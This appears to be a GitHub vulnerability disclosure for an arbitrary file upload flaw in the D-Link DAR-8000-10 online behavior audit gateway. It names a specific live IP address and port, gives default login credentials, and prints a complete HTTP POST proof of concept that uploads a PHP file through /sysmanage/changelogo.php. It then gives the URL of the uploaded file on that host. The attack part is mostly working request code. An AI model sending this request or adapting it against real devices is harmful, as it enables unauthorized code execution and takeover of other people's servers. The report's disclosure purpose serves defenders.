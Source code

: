 

The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10

Vulnerability Path ：/sysmanage/changelogo.php


Ip：https://59.60.19.174:8443/

Log in to the system using the default password：test/admin@123

POC：
```
POST /sysmanage/changelogo.php HTTP/1.1
Host: 59.60.19.174:8443
Cookie: PHPSESSID=eb22543a6a7b4ffd10816d515b505f7f
Accept: image/gif, image/jpeg, image/pjpeg, application/x-ms-application, application/xaml+xml, application/x-ms-xbap, */*
Accept-Language: zh-CN
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)
Content-Type: multipart/form-data; boundary=---------------------------7e62f02f51878
Accept-Encoding: gzip, deflate
Content-Length: 326
Cache-Control: no-cache
Connection: close

-----------------------------7e62f02f51878
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------7e62f02f51878
Content-Disposition: form-data; name="mode"

upload
-----------------------------7e62f02f51878--

```
<img width="726" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/e3704d22-d80d-459e-8c3b-2f9d7333fbc7">

https://59.60.19.174:8443/boot/web/upload/diylogo/phpinfo.php

<img width="723" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/30362ba8-80b6-4f9a-bd4f-47601844974b">
